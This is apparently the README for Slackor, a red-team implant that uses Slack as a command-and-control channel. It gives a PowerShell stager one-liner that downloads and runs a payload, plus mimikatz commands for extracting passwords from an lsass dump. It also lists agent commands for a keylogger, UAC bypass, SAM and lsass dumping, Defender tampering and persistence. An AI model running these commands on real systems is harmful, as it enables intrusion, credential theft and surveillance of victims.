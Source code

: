 # Slackor \#
A Golang implant that uses Slack as a command and control channel.

This project was inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) and [Twittor](https://github.com/PaulSec/twittor). 


![Slackor Screenshot](https://www.n00py.io/wp-content/uploads/2018/10/screenshot.png)
![Wireshark Screenshot](https://www.n00py.io/wp-content/uploads/2018/09/slackor_wireshark-2-1024x349.png)
This tool is released as a proof of concept.  Be sure to read and understand the [Slack App Developer Policy](https://api.slack.com/developer-policy) before creating any Slack apps.  

Setup 
=====

**Note: The server is written in Python 3**

For this to work you need:
- A Slack Workspace
- [Register an app](https://api.slack.com/apps) with the following permissions:
    - **channels:read** 
    - **channels:history** 	
    - **channels:write** 	
    - **files:write:user** 
    - **files:read** 

- Create a bot

This repo contains five files:
- ```install.sh``` Installs dependancies
- ```setup.py``` The script to create the slack channels, database, and implant
- ```server.py``` The Slackor server, designed to be ran on Linux
- ```template.go``` Template for the generated implant
- ```requirements.txt``` Python dependencies (installed automatically)

To get started:

 - Run ```install.sh```
 - Run ```setup.py```
    - Supply the *OAuth Access Token* and *Bot User OAuth Access Token* from your app

After running the script successfully, a file ```agent.exe``` will be created.  It will be a 64bit Go binary packed with UPX.

After starting server.py on a Linux host, execute ```agent.exe``` on your target Windows host.

Run the "stager" module to generate a one-liner and other droppers.
 ```
 powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
 ```
 This will execute InvokeWebRequest(PS v.3+) to download the payload, execute it using a [LOLBin](https://github.com/LOLBAS-Project/LOLBAS/blob/master/OSBinaries/Forfiles.exe.md), and then delete itself once killed.  This is a working example but the command can tweaked to use another download method or execution method.   

Usage 
=====
Type "help" or press [TAB] to see a list of available commands.  type "help [COMMAND]" to see a description of that command.

```(Slackor)```

- **Help** - Displays help menu
- **interact** - Interact with an agent
- **list** - List all registered agents
- **remove** - kill and remove an agent
- **revive** - Sends a signal to all agents to re-register with the server
- **stager** - Generates a one-liner to download an execute the implant
- **quit** - Quit the program
- **wipefiles** - Deletes all uploaded files out of Slack

Once an agent checks in, you can interact with it.
Use "interact [AGENT] to enter into an agent prompt.  Type "help" or press [TAB] to see a list of available commands.

```(Slackor:AGENT)```

- **back** - Return to the main menu
- **beacon** - change the amount of time between each check-in by an agent (default is 5 seconds)
- **bypassuac** - Attempts to spawn a high integrity agent
- **cleanup** - Removes persistence artifacts
- **clipboard** - Retreives the contents of the clipboard
- **defanger** - Attempts to de-fang Windows Defender
- **download** - Download a file from the agent to the Slackor server
- **duplicate** - Causes the agent to spawn another invocation of itself
- **getsystem** - Spawns an agent as NTAUTHORITY/SYSTEM
- **help** - Displays help menu
- **keyscan** - Starts a keylogger on the agent
- **kill** - Kill the agent 
- **minidump** - Dumps memory from lsass.exe and downloads it  
- **persist** - Creates persistence by implanting a binary in an ADS
- **samdump** - Attempts to dump the SAM file for offline hash extraction
- **screenshot** - Takes a screenshot of the desktop and retrieves it
- **shellcode** - Executes x64 raw shellcode
- **sleep** - Cause the agent to sleep once (enter time in seconds)
- **sysinfo** - Displays the current user, OS version, system architecture, and number of CPU cores
- **upload** - Upload a file to the agent from the Slackor server
- **wget** - Pull down arbitrary files over HTTP/HTTPS 


#### OPSEC Considerations

Command output and downloaded files are AES encrypted in addition to TLS transport encryption.
 
Modules will warn you before performing tasks that write to disk.  
When executing shell commands, take note that cmd.exe will be executed.  This may be monitored on the host.
Here are several OPSEC safe commands that will NOT execute cmd.exe:

- **cat** - prints file content
- **cd** - change directory
- **hostname** - Displays the name of the host
- **ifconfig** - Displays interface information
- **ls** - list directory contents
- **mkdir** - Creates a directory
- **pwd** - prints the current working directory
- **rm** - removes a file
- **rmdir** - removes a directory
- **whoami / getuid** - prints the current user

Credits
=====
- https://github.com/EgeBalci -  Functions adapted from [HERCULES](https://github.com/EgeBalci/HERCULES) and [EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT)
- https://github.com/SaturnsVoid - Keylogger adapted from [GoBot2](https://github.com/SaturnsVoid/GoBot2)
- https://github.com/vyrus001 - x64 shellcode execution [shellGo](https://github.com/vyrus001/shellGo)
- Crypto functions adopted from https://www.golang123.com/topic/1686 
- Persistence idea from [Enigma0x3](https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/)
- Minidump adoped from [Merlin](https://github.com/Ne0nd0g/merlin), credit to [C-Sto](https://github.com/C-Sto)
- Screenshot code from [kbinani](https://github.com/kbinani/screenshot)
- Clipboard code from [atotto](https://github.com/atotto/clipboard)
- Stager generator from [hlldz](https://github.com/hlldz/SpookFlare)
- UAC bypass by [winscripting.blog](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
- Lulzbin find by [@vector_sec](https://twitter.com/vector_sec/status/896049052642533376]) 
- Countless threads on StackOverflow
- Thanks to [impacket](https://github.com/SecureAuthCorp/impacket) for dumping hashes from SAM/SYS/SECURITY reg hives. 
- LSASS dump credential extraction made possbile using [pypykatz](https://github.com/skelsec/pypykatz) by skelsec

Future goals 
=====
- DOSfuscation 
- Reflectively load DLL/PE - https://github.com/vyrus001/go-mimikatz
- Execute C# assemblies in memory - https://github.com/lesnuages/go-execute-assembly
- Source code obfuscation https://github.com/unixpickle/gobfuscate

FAQ:
=====
**Is this safe to use for red teams/pentesting?** 

Yes, given some conditions.  While the data is encrypted in transit, the agent contains the key for decryption.
Anyone who acquires a copy of the agent could reverse engineer it and extract the API keys and the AES secret key.
Anyone who compromises or otherwise gains access to the workspace would be able to retrieve all data within it. 
For this reason, it is not recommended to re-use infrastructure against multiple organizations.    

**What about Mimikatz?**

The implant does not have in-memory password dumping functionality.
If you need logonPasswords, you can try the following:
```
(Slackor: AGENT)minidump
```
THis will automically extract passwords with Pypykatz.  Alternatively, you can use Mimikatz on Windows.
```
>mimikatz.exe
mimikatz # sekurlsa::Minidump lsassdump.dmp
mimikatz # sekurlsa::logonPasswords
```
**Is it cross-platform?** 

Not yet. It has not been fully tested on a variety of systems.  The server was designed to run on Kali Linux and the agent on Windows 10.  

**How well does it scale?** 

Scalability is limited by the Slack API.  If you have multiple agents, consider increasing the beacon interval of beacons not in use.  

**Is it vulnerable to standard beacon analysis?** 

Currently each beacon has 20% jitter built in, and beacon times can be customized.  Agent check-in request and response packets will be about the same size each time as long as no new commands are recieved.

**Why did you do [x] when a better way to do it is [y]?**

I tried my best.  PRs are encouraged :)

**It gets caught by AV!**

The built-in HTA stager is created by [SpookFlare](https://github.com/hlldz/SpookFlare) which is based on [Demiguise](https://github.com/nccgroup/demiguise).  If you want your droppers to not get snagged you probably want to go custom.  The built in droppers are just there to get you started. 

